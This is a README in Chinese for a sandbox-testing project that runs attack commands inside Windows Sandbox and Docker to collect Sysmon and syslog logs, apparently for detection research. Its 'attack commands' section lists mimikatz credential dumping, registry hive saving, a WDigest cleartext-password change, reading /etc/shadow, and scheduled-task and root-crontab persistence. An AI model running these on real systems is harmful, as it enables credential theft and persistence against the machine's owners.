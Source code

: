 # sandbox_test

只需要下載src和test資料夾即可，project環境為windows 10 22H2 pro，需要開啟windows sandbox功能和docker

(如果要看log，可以下載log.xml和container_syslog.log)

## 執行code
如果想要用pytest測試的話，使用以下架構:
```
-root(root資料夾不限名稱)
    -src
        -SandboxFiles
            mimikatz.exe
            Sysmon64.exe
            sysmonconfig.xml: 
            (sandbox.wsb): 由code自動產生
            (install_and_run.bat): 由code自動產生
            (log.xml): 由code自動產生
        Dockerfile
        sand.py
        (container_syslog.log): 由code自動產生
    -test
        test_sand_unit.py
        test_sand_integrated.py
```
在root資料夾下執行```pytest -vv --cov -p no:warnings```

如果要執行sand.py，把最後兩行註解取消掉再執行

## 攻擊指令

windows
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
copy %USERPROFILE%\Desktop\SandboxFiles\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles . /H /Y

reg save HKLM\SYSTEM C:\\system.save

reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
     
setlocal enabledelayedexpansion

:: Get the current time
for /f "tokens=1-4 delims=:.," %%a in ("%time%") do (
    set /a HH=%%a, MM=%%b, SS=%%c, FF=%%d
)

:: Add 10 seconds
set /a MM+=1
if !MM! geq 60 (
    set /a MM-=60
    set /a HH+=1
    if !HH! geq 24 set /a HH-=24
)

:: Format the time with leading zeros
if !HH! lss 10 set HH=0!HH!
if !MM! lss 10 set MM=0!MM!
echo !HH!:!MM!
:: Create the scheduled task
schtasks /create /tn "MyTask" /tr "notepad.exe" /sc once /st !HH!:!MM! /f
```

linux
```
whoami
echo 'whoami'> tmp
cp tmp tmp2
sh < tmp2
cat /etc/shadow
echo \"echo hash_value > name.out\" | at now + 1 minute
echo \"*/2 * * * * root whoami > username\" >> /etc/crontab
```

## 有關log

log.xml是windows的log

container_syslog.log是linux的log

另外，執行code後，log的位置分別是```root/src/SandboxFiles/log.xml```和```root/src/container_syslog.log```
